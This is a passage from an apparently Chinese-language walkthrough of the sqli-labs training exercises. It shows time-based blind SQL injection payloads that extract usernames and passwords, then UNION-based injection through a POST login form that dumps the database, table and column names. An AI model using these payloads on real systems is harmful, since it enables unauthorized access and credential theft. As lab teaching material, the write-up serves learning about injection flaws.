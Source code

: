    ```
   ?id=1' or if(ascii(substr((select group_concat(username,":",password) from users),1,1))=97,sleep(3),1)--+	//猜字符串
   
   ?id=1' or if(ascii(substr((select group_concat(username,":",password) from users),1,1))=97,sleep(3),1)--+	//通过ASCII码猜
   ```



### less11~12

#### 类型：

POST 基于错误 字符型注入

#### 解题方法

通过登录框进行注入

以第11题为例，12题为双引号+括号的闭合



#### 解题

1. **随便输点东西**

   ![11-1](images/sqli_labs/11-1.png)

   没反应，再输！！！

   ![11-2](images/sqli_labs/11-2.png)

   回显是一个报错信息，再加一个双引号

   ![11-3](images/sqli_labs/11-3.png)

   最后我们推出这个页面的SQL语句

   ```
   select username,password from users where username='用户名' and password='密码' limit 0,1
   ```

2. 我们直接构建自己的payload，并换POST进行传参，**爆库名**

   ```
   uname=1' union select 1,database() #&passwd=xwx & submit=Submit
   ```

3. **获取表名**

   ```
   uname=1' union select 1,group_concat(table_name) from information_schema.tables where table_schema="security" #&passwd=xwx & submit=Submit
   ```

4. **获取字段**

   ```
   uname=1' union select 1,group_concat(column_name) from information_schema.columns where table_name="users" #&passwd=xwx & submit=Submit
   ```
